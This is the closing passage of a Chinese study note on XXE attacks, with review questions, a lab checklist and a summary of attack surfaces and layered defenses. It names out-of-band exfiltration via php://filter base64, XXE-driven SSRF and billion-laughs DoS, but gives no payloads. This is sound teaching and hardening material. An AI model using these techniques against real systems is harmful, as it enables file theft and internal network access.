6. OOB 外带时为什么要套 `php://filter` 的 base64？裸读文件实测报了什么错、请求是否发出去了？
7. XXE 版 SSRF 与普通 SSRF（13 册）在请求能力与防御措施上各有什么异同？
8. billion laughs 为什么在「禁 DTD」防御下不可能发生？`--huge` 类开关的存在说明了什么工程权衡？
9. 审计一个「上传 XLSX 后导入」的功能，列出你需要核对的解析器配置清单（至少四个层次）。
10. 上机任务：复刻 §3—§5 mini-lab（xmllint 三连、PHP NOENT 对照、Python ext_ges 对照、Java 默认 vs 禁 DTD、OOB 外带），再把 PHP 侧按 §9.2 改成安全配置并验证全部攻击失效；记录进自己的 `labs/`。

学习进度（完成一项勾一项）：

- [ ] §3 四个解析器对照实验跑通
- [ ] §5.2 OOB 外带在自己的本地服务器上复现
- [ ] 把 §9.4 清单套到自己的一个真实项目上
- [ ] PortSwigger Web Security Academy XXE 全部 lab 通过

---

## 13. 小结

- XXE 的地基是**实体的两条时间线**：通用实体在文档阶段展开（需要内容引用点），参数实体在 DTD 阶段展开（不需要）——盲 XXE 的一切技巧都是把攻击搬进 DTD 阶段；
- 攻击面四件套：文件读取（经典）、SSRF（协议矩阵）、盲打（OOB/错误通道）、DoS（billion laughs）；
- 成立与否几乎只取决于**解析器配置**：四个生态的默认行为差异巨大（Java 默认危险，实测为证），审计动作是找那行配置；
- 防御主线：**禁 DTD（总闸）> 禁外部实体/外部加载 > 白名单与格式收敛 > 出网管控兜底**，DoS 面随禁 DTD 一并消失。

---

（完。延伸阅读：SSRF 与出网管控见笔记 13，文件包含与流包装器见笔记 48，上传链路见笔记 14，会话凭证泄露处置见笔记 16；CTF 中 XXE 题型随笔记 36 的 Web 题库出现。）
